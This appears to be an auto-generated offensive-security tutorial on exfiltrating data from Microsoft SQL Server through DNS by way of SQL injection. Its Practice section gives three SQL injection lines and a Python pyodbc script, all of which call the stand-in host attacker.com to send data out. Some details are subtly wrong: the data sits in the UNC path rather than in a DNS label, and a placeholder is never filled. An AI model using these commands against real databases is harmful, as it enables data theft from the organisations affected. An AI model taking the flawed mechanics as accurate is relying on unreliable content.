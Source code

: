 ```yaml
---
title: 'MSSQL DNS Exfiltration: Techniques and Automation'
description: Learn how to perform DNS exfiltration using MSSQL through SQL injection
  and automation.
keywords:
- MSSQL DNS exfiltration
- SQL injection
- out-of-band data transfer
- fn_xe_file_target_read_file
- fn_get_audit_file
- fn_trace_gettable
- DNS tunneling
- network traffic analysis
---
```


# MSSQL DNS Exfiltration

## Context

MSSQL DNS exfiltration involves leveraging Microsoft SQL Server to transfer data out-of-band through DNS queries. This technique is often used to exfiltrate sensitive information from systems where conventional data transfer methods are monitored or blocked. Understanding DNS protocol basics, SQL Server permissions, network traffic analysis, and SQL injection techniques in Microsoft SQL Server are essential for executing this attack.

## Theory

### DNS Exfiltration Mechanism

DNS exfiltration involves encoding data within DNS queries and sending these queries to an attacker-controlled server. The attacker then decodes the data received from the DNS server. This technique is employed because DNS traffic is typically allowed to pass through network firewalls, making it a stealthy method for data exfiltration.

### SQL Server Privileges for DNS Exfiltration

Certain privileges on the SQL Server are required to execute functions capable of DNS exfiltration. Privileges such as `CONTROL SERVER` or `VIEW SERVER STATE` allow execution of commands that can trigger external DNS queries, thus enabling data exfiltration.

### Functions Enabling DNS Exfiltration in MSSQL

Functions like `fn_xe_file_target_read_file`, `fn_get_audit_file`, and `fn_trace_gettable` in MSSQL can be used to trigger DNS queries. These functions, when improperly secured, can be exploited to perform out-of-band data transfer using DNS queries to an external server.

### DNS Tunneling Mechanisms

DNS tunneling involves encapsulating data within DNS queries to bypass network restrictions. Since DNS is a protocol commonly allowed through firewalls, it can be exploited for stealthy data exfiltration. The weakness stems from the common practice of allowing DNS traffic to pass unfiltered through firewalls.

## Practice

### DNS Exfiltration via MSSQL SQL Injection

To perform DNS exfiltration using SQL injection on MSSQL, the following steps are executed:

- **Initiating a DNS Query using `fn_xe_file_target_read_file`:**

    ```bash
    SELECT * FROM fn_xe_file_target_read_file('\\attacker.com\%data%', NULL, NULL, NULL);
    ```
    This command triggers a DNS query to the attacker's server with encoded data.

- **Using `fn_get_audit_file` for Exfiltration:**

    ```bash
    SELECT * FROM fn_get_audit_file('\\attacker.com\%data%', DEFAULT, DEFAULT);
    ```
    An alternative function to trigger a DNS query for data exfiltration.

- **Employing `fn_trace_gettable` for DNS Query:**

    ```bash
    SELECT * FROM fn_trace_gettable('\\attacker.com\%data%', DEFAULT);
    ```
    This command initiates another method for DNS query-based data exfiltration.

The outcome of these commands is the successful exfiltration of data through DNS queries to an attacker-controlled server.

### Automated DNS Exfiltration Script

For automating DNS exfiltration, the following Python script can be used:

```python
import pyodbc

def encode_to_dns_format(data):
    # Custom function to encode data suitable for DNS query
    return data.encode('utf-8').hex()

conn = pyodbc.connect('DRIVER={SQL Server};SERVER=server;DATABASE=db;UID=user;PWD=password')
cursor = conn.cursor()
data = 'sensitive_data'
encoded_data = encode_to_dns_format(data)
query = f"SELECT * FROM fn_xe_file_target_read_file('\\\\attacker.com\\{encoded_data}', NULL, NULL, NULL);"
cursor.execute(query)
conn.close()
```

This automated approach encodes the data into a format suitable for DNS queries and executes the SQL command to initiate the exfiltration process through encoded DNS queries.

## Tools

- **pyodbc**
- **SQL Server Management Studio**
